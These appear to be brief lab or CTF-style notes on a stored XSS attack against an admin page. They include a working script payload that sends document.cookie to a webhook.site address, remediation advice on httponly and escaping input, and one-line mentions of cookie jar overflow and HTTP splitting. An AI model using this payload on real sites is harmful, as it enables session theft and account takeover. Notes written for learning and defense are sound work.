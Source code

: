 
- create image that will ask webhook for image(then reload admin page)(and then show the admin cookie in webhook)
```js
<script>var i=new Image;i.src="https://webhook.site/512116a1-a097-4166-8603-f91a28a1f21a/?"+document.cookie;</script>
```

- u can check in admin page in console by :
```js
document.cookie
```
 ---
 
 -As solution to this vuln. httponly must = true , so that js cannot access document.cookie ; or filter user input (escape data input) by making src=card.pic in pug file ;

---
- another attack : cookie jar overflow
	cookie jar overflow : create many cookies so that browser delete cookies in order of time and kick everyone out  of the web 

---
- http splitting attack :
	u can bypass httponly

